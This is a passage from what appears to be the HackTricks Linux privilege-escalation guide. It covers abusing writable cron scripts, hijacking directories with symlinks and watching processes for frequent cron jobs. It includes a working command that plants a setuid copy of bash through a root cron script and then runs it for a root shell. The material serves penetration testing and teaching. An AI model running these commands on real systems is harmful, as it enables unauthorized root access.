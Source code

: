 ![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4592'%3e%3cg data-evernote-id='4593' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='4594' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='4595' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

71echo  'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'  >  </PATH/CRON/SCRIPT>
72#Wait until it is executed
73/tmp/bash -p

If the script executed by root uses a **directory where you have full access**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4632'%3e%3cg data-evernote-id='4633' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='4634' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='4635' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

ln -d -s </PATH/TO/POINT>  </PATH/CREATE/FOLDER>

##

Frequent cron jobs[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4660'%3e%3cg data-evernote-id='4661' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='4662' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='4663' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation#frequent-cron-jobs)

You can monitor the processes to search for processes that are being executed every 1,2 or 5 minutes. Maybe you can take advantage of it and escalate privileges.

For example, to **monitor every 0.1s during 1 minute**, **sort by less executed commands** and deleting the commands that have beeing executed all the time, you can do:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4681'%3e%3cg data-evernote-id='4682' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='4683' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='4684' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

for i in  $(seq 1 610);  do  ps -e --format cmd >> /tmp/monprocs.tmp;  sleep 0.1;  done;  sort /tmp/monprocs.tmp |  uniq -c |  grep -v "\["  |  sed  '/^.\{200\}./d'  |  sort  |  grep -E -v "\s*[6-9][0-9][0-9]|\s*[0-9][0-9][0-9][0-9]";  rm /tmp/monprocs.tmp;

**You can also use**  [**pspy**](https://github.com/DominicBreuker/pspy/releases) (this will monitor and list every process that start).

#

Services[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4798'%3e%3cg data-evernote-id='4799' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='4800' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='4801' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation#services)

##

Writable *.service* files[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4817'%3e%3cg data-evernote-id='4818' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='4819' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='4820' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-service-files)
